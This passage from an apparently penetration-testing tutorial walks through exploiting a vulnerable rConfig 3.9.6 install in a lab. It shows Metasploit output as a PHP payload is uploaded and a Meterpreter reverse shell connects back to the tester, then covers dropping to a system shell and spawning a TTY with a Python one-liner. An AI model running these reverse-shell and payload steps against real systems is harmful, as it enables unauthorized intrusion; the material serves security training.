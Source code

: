 [*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -&gt; 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter &gt; dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
</code></pre>
<p>We can see from the steps outlined in the exploitation process that this exploit:</p>
<ul>
<li>Checks for the vulnerable version of rConfig</li>
<li>Authenticates with the rConfig web login</li>
<li>Uploads a PHP-based payload for a reverse shell connection</li>
<li>Deletes the payload</li>
<li>Leaves us with a Meterpreter shell session</li>
</ul>
<h4>Interact With the Shell</h4>
<pre><code class="language-shell-session">
meterpreter &gt; shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
</code></pre>
<p>We can drop into a system shell (<code>shell</code>) to gain access to the target system as if we were logged in and open a terminal.</p>
<hr/>
<h2>Spawning a TTY Shell with Python</h2>
<p>When we drop into the system shell, we notice that no prompt is present, yet we can still issue some system commands. This is a shell typically referred to as a <code>non-tty shell</code>. These shells have limited functionality and can often prevent our use of essential commands like <code>su</code> (<code>switch user</code>) and <code>sudo</code> (<code>super user do</code>), which we will likely need if we seek to escalate privileges. This happened because the payload was executed on the target by the apache user. Our session is established as the apache user. Normally, admins are not accessing the system as the apache user, so there is no need for a shell interpreter language to be defined in the environment variables associated with apache.</p>
<p>We can manually spawn a TTY shell using Python if it is present on the system. We can always check for Python's presence on Linux systems by typing the command: <code>which python</code>. To spawn the TTY shell session using Python, we type the following command:</p>
<h4>Interactive Python</h4>
<pre><code class="language-shell-session">python -c 'import pty; pty.spawn("/bin/sh")' 
